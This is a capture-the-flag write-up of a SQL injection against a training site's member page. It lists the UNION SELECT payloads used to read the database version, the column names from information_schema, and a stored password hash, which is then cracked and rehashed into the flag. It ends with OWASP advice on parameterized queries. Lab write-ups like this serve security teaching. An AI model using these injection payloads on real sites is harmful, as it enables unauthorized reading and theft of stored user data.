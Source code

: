 ## How we found the flag
By doing sql inject on the memebers page (/index.php?page=member), we can find the database table schema, including table schema names, table names and column names.

### Find all column names on the users table

We are interested in finding all user information. First, we can find out database version with `1 UNION SELECT 1, version() limit 1,1`, the DB version is `5.5.64-MariaDB-1ubuntu0.14.04.1`.

> INFORMATION_SCHEMA provides access to database metadata (mysql), see [doc](https://dev.mysql.com/doc/refman/8.3/en/information-schema-table-reference.html).

Get all column names with `-1 UNION SELECT table_name, column_name FROM information_Schema.columns where table_schema=DATABASE()`, the table is called "users", and the avalaible columns are "user_id,first_name,last_name,town,country,planet,Commentaire,countersign".


### Look for information for exploiting
When trying `-1 UNION SELECT Commentaire,countersign FROM users`, the output becomes interesting:

```
ID: -1 UNION SELECT Commentaire,countersign FROM users 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

### Follow the hint
Decrypt `5ff9d0165b4f92b14994e5c685cdce28` with https://www.dcode.fr/, we get `FortyTwo`, then encrypt "fortytwo" with sh256, the result is the flag `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`


## How to exploit the breach
- Get sensitive information from the database, modify or even delete entries.

## What's the correct way
[doc](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
> Stop writing dynamic queries with string concatenation.
> Prevent malicious SQL input from being included in executed queries with Parameterized Queries.
